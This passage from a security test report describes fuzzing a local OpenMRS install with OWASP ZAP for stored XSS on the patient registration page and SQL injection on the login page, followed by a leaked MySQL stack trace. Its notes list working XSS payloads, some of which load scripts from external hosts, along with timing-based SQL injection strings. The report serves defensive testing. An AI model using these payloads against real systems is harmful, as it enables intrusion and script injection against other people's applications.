	at org.springframework.transaction.interceptor.TransactionInterceptor.invoke(TransactionInterceptor.java:96)
	at org.springframework.aop.framework.ReflectiveMethodInvocation.proceed(ReflectiveMethodInvocation.java:179)
	at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:207)
	at com.sun.proxy.$Proxy290.authenticate(Unknown Source)
	at org.openmrs.api.context.UserContext.authenticate(UserContext.java:100)
	at org.openmrs.api.context.Context.authenticate(Context.java:297)
	at org.openmrs.module.referenceapplication.page.controller.LoginPageController.post(LoginPageController.java:217)
	at sun.reflect.GeneratedMethodAccessor542.invoke(Unknown Source)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at org.openmrs.ui.framework.UiFrameworkUtil.invokeMethodWithArguments(UiFrameworkUtil.java:112)
	at org.openmrs.ui.framework.UiFrameworkUtil.executeControllerMethod(UiFrameworkUtil.java:71)
	at org.openmrs.ui.framework.page.PageFactory.handleRequestWithController(PageFactory.java:219)
	at org.openmrs.ui.framework.page.PageFactory.processThisFragment(PageFactory.java:160)
	at org.openmrs.ui.framework.page.PageFactory.process(PageFactory.java:116)
	at org.openmrs.ui.framework.page.PageFactory.handle(PageFactory.java:86)
	at org.openmrs.module.uiframework.PageController.handlePath(PageController.java:116)
	at org.openmrs.module.uiframework.PageController.handleUrlWithDotPage(PageController.java:83)
	at sun.reflect.GeneratedMethodAccessor540.invoke(Unknown Source)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at org.springframework.web.bind.annotation.support.HandlerMethodInvoker.invokeHandlerMethod(HandlerMethodInvoker.java:177)
	at org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter.invokeHandlerMethod(AnnotationMethodHandlerAdapter.java:446)
	at org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter.handle(AnnotationMethodHandlerAdapter.java:434)
	at org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:943)
	at org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:877)
	at org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:966)
	at org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:868)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:647)
	at org.springframework.web.servlet.FrameworkServlet.service(FrameworkServlet.java:842)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:728)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:305)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:101)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:101)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.apache.catalina.core.ApplicationDispatcher.invoke(ApplicationDispatcher.java:749)
	at org.apache.catalina.core.ApplicationDispatcher.processRequest(ApplicationDispatcher.java:487)
	at org.apache.catalina.core.ApplicationDispatcher.doForward(ApplicationDispatcher.java:412)
	at org.apache.catalina.core.ApplicationDispatcher.forward(ApplicationDispatcher.java:339)
	at org.springframework.web.servlet.view.InternalResourceView.renderMergedOutputModel(InternalResourceView.java:168)
	at org.springframework.web.servlet.view.AbstractView.render(AbstractView.java:303)
	at org.springframework.web.servlet.DispatcherServlet.render(DispatcherServlet.java:1228)
	at org.springframework.web.servlet.DispatcherServlet.processDispatchResult(DispatcherServlet.java:1011)
	at org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:955)
	at org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:877)
	at org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:966)
	at org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:868)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:647)
	at org.springframework.web.servlet.FrameworkServlet.service(FrameworkServlet.java:842)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:728)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:305)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.module.web.filter.ForcePasswordChangeFilter.doFilter(ForcePasswordChangeFilter.java:60)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.GZIPFilter.doFilterInternal(GZIPFilter.java:64)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.module.web.filter.ModuleFilterChain.doFilter(ModuleFilterChain.java:72)
	at org.openmrs.module.owa.filter.OwaFilter.doFilter(OwaFilter.java:64)
	at org.openmrs.module.web.filter.ModuleFilterChain.doFilter(ModuleFilterChain.java:70)
	at org.openmrs.module.web.filter.ModuleFilter.doFilter(ModuleFilter.java:54)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.OpenmrsFilter.doFilterInternal(OpenmrsFilter.java:108)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.orm.hibernate4.support.OpenSessionInViewFilter.doFilterInternal(OpenSessionInViewFilter.java:150)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.CharacterEncodingFilter.doFilterInternal(CharacterEncodingFilter.java:88)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:222)
	at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:123)
	at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:502)
	at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:171)
	at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:100)
	at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:118)
	at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:409)
	at org.apache.coyote.http11.AbstractHttp11Processor.process(AbstractHttp11Processor.java:1044)
	at org.apache.coyote.AbstractProtocol$AbstractConnectionHandler.process(AbstractProtocol.java:607)
	at org.apache.tomcat.util.net.JIoEndpoint$SocketProcessor.run(JIoEndpoint.java:315)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at java.lang.Thread.run(Thread.java:748)
Caused by: org.hibernate.exception.ConstraintViolationException: could not execute batch
	at org.hibernate.exception.internal.SQLStateConversionDelegate.convert(SQLStateConversionDelegate.java:129)
	at org.hibernate.exception.internal.StandardSQLExceptionConverter.convert(StandardSQLExceptionConverter.java:49)
	at org.hibernate.engine.jdbc.spi.SqlExceptionHelper.convert(SqlExceptionHelper.java:126)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.performExecution(BatchingBatch.java:136)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.doExecuteBatch(BatchingBatch.java:114)
	at org.hibernate.engine.jdbc.batch.internal.AbstractBatchImpl.execute(AbstractBatchImpl.java:163)
	at org.hibernate.engine.jdbc.internal.JdbcCoordinatorImpl.executeBatch(JdbcCoordinatorImpl.java:226)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:484)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:351)
	at org.hibernate.event.internal.AbstractFlushingEventListener.performExecutions(AbstractFlushingEventListener.java:350)
	at org.hibernate.event.internal.DefaultFlushEventListener.onFlush(DefaultFlushEventListener.java:56)
	at org.hibernate.internal.SessionImpl.flush(SessionImpl.java:1258)
	at org.hibernate.internal.SessionImpl.managedFlush(SessionImpl.java:425)
	at org.hibernate.engine.transaction.internal.jdbc.JdbcTransaction.beforeTransactionCommit(JdbcTransaction.java:101)
	at org.hibernate.engine.transaction.spi.AbstractTransactionImpl.commit(AbstractTransactionImpl.java:177)
	at org.springframework.orm.hibernate4.HibernateTransactionManager.doCommit(HibernateTransactionManager.java:584)
	... 107 more
Caused by: java.sql.BatchUpdateException: Duplicate entry '1-lockoutTimestamp' for key 'PRIMARY'
	at com.mysql.jdbc.PreparedStatement.executeBatchSerially(PreparedStatement.java:2055)
	at com.mysql.jdbc.PreparedStatement.executeBatch(PreparedStatement.java:1467)
	at com.mchange.v2.c3p0.impl.NewProxyPreparedStatement.executeBatch(NewProxyPreparedStatement.java:1135)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.performExecution(BatchingBatch.java:127)
	... 119 more
Caused by: com.mysql.jdbc.exceptions.jdbc4.MySQLIntegrityConstraintViolationException: Duplicate entry '1-lockoutTimestamp' for key 'PRIMARY'
	at sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
	at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
	at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
	at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
	at com.mysql.jdbc.Util.handleNewInstance(Util.java:411)
	at com.mysql.jdbc.Util.getInstance(Util.java:386)
	at com.mysql.jdbc.SQLError.createSQLException(SQLError.java:1041)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4237)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4169)
	at com.mysql.jdbc.MysqlIO.sendCommand(MysqlIO.java:2617)
	at com.mysql.jdbc.MysqlIO.sqlQueryDirect(MysqlIO.java:2778)
	at com.mysql.jdbc.ConnectionImpl.execSQL(ConnectionImpl.java:2825)
	at com.mysql.jdbc.PreparedStatement.executeInternal(PreparedStatement.java:2156)
	at com.mysql.jdbc.PreparedStatement.executeUpdate(PreparedStatement.java:2441)
	at com.mysql.jdbc.PreparedStatement.executeBatchSerially(PreparedStatement.java:2007)
	... 122 more
</pre>
```

## Fuzz -2- PATIENT REGISTRATION PAGE XSS
### Priority : HIGH
### Test status : PASSED

### * Description
#### Name of module : OpenMRS Patient registration 
+ Page location : http://localhost:8081/openmrs-standalone/registrationapp/registerPatient.page
+ Fuzz string : http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=[fuzzdata]&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=
+ Fuzz data : jbrofuzz pre-installed rules in OWASP scanner
Fuzzer will deploy 223 Cross-site scripting attack strings on the variable "address1" in form of POST requests. Server HttpResponses will be analyzed and be decided if the attacks were successful or not.

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally

### * Test Data
jbrofuzz XSS rules came standard with OWASP Zap

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open OWASP Zap V2.6.0
3. From OWASP Zap, go to Toos > Launch the Zap JxBrowser
4. In the Zap JxBrowser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
5. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the JzBrowser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly


6. Go back to the Zap JxBrowser and login with Username: admin and Password : Admin123 (password is case sensitive) and select "Pharmacy" as section.
7. After logged in, choose "Register a patient"
8. Fill out patient information as followed
Demographics:
- Name: Lawren Jennifer
- Gender: Female
- Birthdate: Estimate years : 25 / Estimate months : 1
- Address: Fuzz Fuzz Fuzz Fuzz
- Address2: bogus
- City: Hollywood
- State: CA / Country: USA / Postal Code: 00000
- Phone: 408 804 4488
- Relatives: Doctor / Nguyen
9. Confirm the information - Click "Confirm". Close JxBrowser window and get back to main Zap window


10. In zap window, if you see "registrationapp" on the left panel (the "Sites" panel) then you got it, if not, please repeat step 3 to 8
11. Expand "registrationapp", then expand "registerPatient", and select "GET:submit.action(,address1, address2appid, birthdate..."
12. The right panel will turn into 2 smaller panels. At the top panel, you will see the HTML header of the GET request sent when registering for the patient. Look for the "Fuzz+Fuzz+Fuzz+Fuzz" string.


9. Highlight the "Fuzz+Fuzz+Fuzz+Fuzz" part from the string you got in previous step, right click on it and choose "Fuzz". A Fuzzer window will be opened.


10. In the fuzzer window, click "Payloads..." button. A child window will be opened
11. In the child "Payloads" window, click "Add". An "Add payload" window will be opened
12. In "Add payload window, in the "Type" box, choose "File Fuzzers". Expand the "jbrofuzz" section. Check the box of "XSS" and click "Add". The child window will be closed.


13. In Payloads window, click "OK" and you will be returned to the "Fuzzer" window. In this window, click "Start Fuzzer" button and you will be returned to the main Zap window with the "Fuzzer" tab selected
14. Observe the results in the "Fuzzer" tab, especially the "Code" collumn. You will see that some payloads got through by noticing html code 200. Select one fuzz entry with status code 200 and observe the HtmlResponse information. We will see that the system actually let the fuzzer register a patient with mallicious payloads, noting the OpenMRS responded with a "success" status and a new patient ID.


15. Open your regular browser, login with admin as username and "Admin123" as password. Go to http://localhost:8081/openmrs-standalone/coreapps/findpatient/findPatient.page?app=coreapps.findPatient
16. Type in either "Jennifer Lauren" and you will see that besides the original "Jennifer Lauren" that we created, there are bogus entries (31) that were created successfully by the fuzzer. We can then verify each bogus entry by clicking on each one, and expand the "show contact info" to see if mallicious code can be executed.


### * Expected results
+ System fail securely
+ No user should be created successfully with mallicious payload as input OR if a user was created with mallicious inputs, contents of mallicious payloads must be deleted or escaped as plain text.

### * Post-condition
OpenMRS should still be operate normally

### * Actual results
+ 223 attacks were performed
+ Around 31 attacks got accepted by the system, the rest were recognized and denied by 400 code
+ Around 31 new patients with the same name "Jennifer Lawren" were created but all mallicious payloads were escaped/deletted.
+ 08 failed attacks were responded with HibernateException messages. However, since the deployment of Hybernate is open knowledge and the error messages did not reveal any important information about the error, we decided that those cases were "failed secure" cases. URLs of the cases are included in the Notes section for further inspections.

### * NOTES:
URL requests that caused HibernateException errors.
```
http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=&%2360;IMG%20STYLE&%2361;&%2334;xss&%2358;expr&%2347;&%2342;XSS&%2342;&%2347;ession&%2340;alert&%2340;&%2339;XSS&%2339;&%2341;&%2341;&%2334;&%2362;&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=

http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=&%2360;STYLE&%2362;&%2364;import&%2339;http&%2358;&%2347;&%2347;testsite.com&%2347;xss.css&%2339;&%2359;&%2360;&%2347;STYLE&%2362;&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=

http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=&%2360;IMG%20SRC&%2361;&%2334;jav&%2338;&%2335;x0D&%2359;ascript&%2358;alert&%2340;&%2339;XSS&%2339;&%2341;&%2359;&%2334;&%2362;&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=

http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=%3C!--%23exec%20cmd=%22/bin/echo%20'%3CSCRIPT%20SRC'%22--%3E%3C!--%23exec%20cmd=%22/bin/echo%20'=http://ha.ckers.org/xss.js%3E%3C/SCRIPT%3E'%22--%3E&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=

http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=httP://aa%22%3E%3Cscript%3Ealert(123)%3C/script%3E&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=

http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=%3CEMBED%20SRC=%22http://ha.ckers.org/xss.swf%22%20AllowScriptAccess=%22always%22%3E%3C/EMBED%3E&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=

http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=%3CSCRIPT/XSS%20SRC=%22http://ha.ckers.org/xss.js%22%3E%3C/SCRIPT%3E&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=

http://localhost:8081/openmrs-standalone/registrationapp/registerPatient/submit.action?appId=referenceapplication.registrationapp.registerPatient&&givenName=Jennifer&middleName=&familyName=Lawren&preferred=true&gender=F&unknown=false&birthdateDay=&birthdateMonth=&birthdateYear=&birthdateYears=25&birthdateMonths=1&birthdate=&address1=res://c:%5C%5Cprogram%20files%5C%5Cadobe%5C%5Cacrobat%207.0%5C%5Cacrobat%5C%5Cacrobat.dll/%232/%23210&address2=bogus&cityVillage=Hollywood&stateProvince=CA&country=usA&postalCode=00000&phoneNumber=408+804+4488&relationship_type=8d919b58-c2cc-11de-8d13-0010c6dffd0f-A&other_person_uuid=
```

## Fuzz -3- LOGIN PAGE SQL INJECTION
### Priority : HIGH
### Test status : FAILED

### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Fuzz string : username=admin&password=[fuzz data]&sessionLocation=2&redirectUrl=
+ Fuzz data : jbrofuzz pre-installed rules in OWASP scanner
Fuzzer will deploy 169 SQL injection attack strings on the variable "password" in form of POST requests. Server HttpResponses will be analyzed and be decided if the attacks were successful or not.


### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally

### * Test Data
jbrofuzz rules came standard with OWASP Zap

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open OWASP Zap V2.6.0
3. From OWASP Zap, go to Toos > Launch the Zap JxBrowser
4. In the Zap JxBrowser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
5. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the JzBrowser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly


6. Go back to the Zap JxBrowser and type a bogus pair of username/password (we use "admin" for username and "BBBBB" for password), select "Pharmacy" section and click login. When the page got reloaded with "Invalid username/password. Please try again", close JxBrowser window and get back to main Zap window


7. In zap window, if you see "POST:login.htm(password, redirectURL,sessionLocation,username)" on the left panel (the "Sites" panel) then you got it, if not, please repeat step 3 to 5
8. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Request" tab on the right panel. The right panel will turn into 2 smaller panels. At the bottom one, you will see "username=admin&password=BBBBB&sessionLocation=2&redirectUrl="
9. Highlight the "BBBBB" part from the string you got in previous step, right click on it and choose "Fuzz". A Fuzzer window will be opened.


10. In the fuzzer window, click "Payloads..." button. A child window will be opened


11. In the child "Payloads" window, click "Add". An "Add payload" window will be opened
12. In "Add payload window, in the "Type" box, choose "File Fuzzers". Expand the "jbrofuzz" section. Check the box of "SQL Injection" and click "Add". The child window will be closed.


13. In Payloads window, click "OK" and you will be returned to the "Fuzzer" window. In this window, click "Start Fuzzer" button and you will be returned to the main Zap window with the "Fuzzer" tab selected
14. Observe the results in the "Fuzzer" tab, especially the "Code" and "Size Resp. Body". Check the HTTP response by selecting a fuzz entry, and select the "Response" tab in the uper right panel.


### * Expected results
+ OpenMRS should redirect invalid logins back to the login page.
+ System has to be able to fail securely.

### * Post-condition
OpenMRS should still be operating normally

### * Actual results
+ 169 fuzz were done on the "password" variable
+ 167 of the entries have 302 code and zero size of Response html body. Confirmed by inspection of html header, noticing that system redirects invalid login to previous page - the login page.
+ 002 of the fuzz entries were able to force system to leak some debugging informations which can be used for further attacks (to be discussed further in the Notes section)
+ We decided that the test is a "FAILED". Even though no exploit directly linked to Injection was successful, the fuzzer was able to leak some important debugging data. 

### * NOTES:

FUZZ STRING USED TO CAUSE THE LEAK
> username=admin&password='; if not(select system_user) <> 'sa' waitfor delay '0:0:2' --&sessionLocation=2&redirectUrl=

or

> username=admin&password='; if not(substring((select @@version),25,1) <> 8) waitfor delay '0:0:2' --&sessionLocation=2&redirectUrl=

LEAKED SYSTEM INFO

Originally harvested by OWASP fuzzer in HttpResponse and may not be able to reproduce using the regular browser/view source method.
```
<h1>UI Framework Error</h1>

<h2>Root Error</h2>
<pre>com.mysql.jdbc.exceptions.jdbc4.MySQLIntegrityConstraintViolationException: Duplicate entry '1-lockoutTimestamp' for key 'PRIMARY'
	at sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
	at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
	at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
	at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
	at com.mysql.jdbc.Util.handleNewInstance(Util.java:411)
	at com.mysql.jdbc.Util.getInstance(Util.java:386)
	at com.mysql.jdbc.SQLError.createSQLException(SQLError.java:1041)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4237)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4169)
	at com.mysql.jdbc.MysqlIO.sendCommand(MysqlIO.java:2617)
	at com.mysql.jdbc.MysqlIO.sqlQueryDirect(MysqlIO.java:2778)
	at com.mysql.jdbc.ConnectionImpl.execSQL(ConnectionImpl.java:2825)
	at com.mysql.jdbc.PreparedStatement.executeInternal(PreparedStatement.java:2156)
	at com.mysql.jdbc.PreparedStatement.executeUpdate(PreparedStatement.java:2441)
	at com.mysql.jdbc.PreparedStatement.executeBatchSerially(PreparedStatement.java:2007)
	at com.mysql.jdbc.PreparedStatement.executeBatch(PreparedStatement.java:1467)
	at com.mchange.v2.c3p0.impl.NewProxyPreparedStatement.executeBatch(NewProxyPreparedStatement.java:1135)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.performExecution(BatchingBatch.java:127)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.doExecuteBatch(BatchingBatch.java:114)
	at org.hibernate.engine.jdbc.batch.internal.AbstractBatchImpl.execute(AbstractBatchImpl.java:163)
	at org.hibernate.engine.jdbc.internal.JdbcCoordinatorImpl.executeBatch(JdbcCoordinatorImpl.java:226)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:484)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:351)
	at org.hibernate.event.internal.AbstractFlushingEventListener.performExecutions(AbstractFlushingEventListener.java:350)
	at org.hibernate.event.internal.DefaultFlushEventListener.onFlush(DefaultFlushEventListener.java:56)
	at org.hibernate.internal.SessionImpl.flush(SessionImpl.java:1258)
	at org.hibernate.internal.SessionImpl.managedFlush(SessionImpl.java:425)
	at org.hibernate.engine.transaction.internal.jdbc.JdbcTransaction.beforeTransactionCommit(JdbcTransaction.java:101)
	at org.hibernate.engine.transaction.spi.AbstractTransactionImpl.commit(AbstractTransactionImpl.java:177)
	at org.springframework.orm.hibernate4.HibernateTransactionManager.doCommit(HibernateTransactionManager.java:584)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.processCommit(AbstractPlatformTransactionManager.java:757)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.commit(AbstractPlatformTransactionManager.java:726)
	at org.springframework.transaction.interceptor.TransactionAspectSupport.completeTransactionAfterThrowing(TransactionAspectSupport.java:553)
	at org.springframework.transaction.interceptor.TransactionAspectSupport.invokeWithinTransaction(TransactionAspectSupport.java:285)
	at org.springframework.transaction.interceptor.TransactionInterceptor.invoke(TransactionInterceptor.java:96)
	at org.springframework.aop.framework.ReflectiveMethodInvocation.proceed(ReflectiveMethodInvocation.java:179)
	at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:207)
	at com.sun.proxy.$Proxy290.authenticate(Unknown Source)
	at org.openmrs.api.context.UserContext.authenticate(UserContext.java:100)
	at org.openmrs.api.context.Context.authenticate(Context.java:297)
	at org.openmrs.module.referenceapplication.page.controller.LoginPageController.post(LoginPageController.java:217)
	at sun.reflect.GeneratedMethodAccessor542.invoke(Unknown Source)
